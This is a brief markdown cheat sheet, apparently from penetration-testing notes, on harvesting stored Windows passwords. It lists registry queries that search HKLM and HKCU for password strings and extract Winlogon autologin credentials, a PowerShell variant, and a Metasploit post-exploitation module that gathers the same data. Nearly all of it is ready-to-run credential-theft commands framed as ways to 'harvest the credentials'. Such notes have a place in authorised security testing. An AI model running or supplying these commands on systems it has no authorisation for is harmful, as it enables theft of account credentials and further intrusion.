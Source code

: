 # Passwords

## 01 - Manual

### 1.1 - Command Prompt

Using a registry to query the plain text password in the key (note these two methods may not work so use the **Auditing Tools** instead)

1. **Method 1:** Registry for key names and passwords (This is useless since it prints out more information)

`C:\> reg query hklm /f "password" /t REG_SZ /s /k`

`C:\> reg query hkcu /f "password" /t REG_SZ /s /k`

2. **Method 2:** Windows Autologin (This is a better option to harvest the credentials)

`C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\winlogon"`

`C:\> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"`

### 1.2 - Powershell

`PS C:\> Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | Select-Object "Default*"`

## 02 - Metasploit

`meterpreter > run post/windows/gather/credentials/windows_autologin`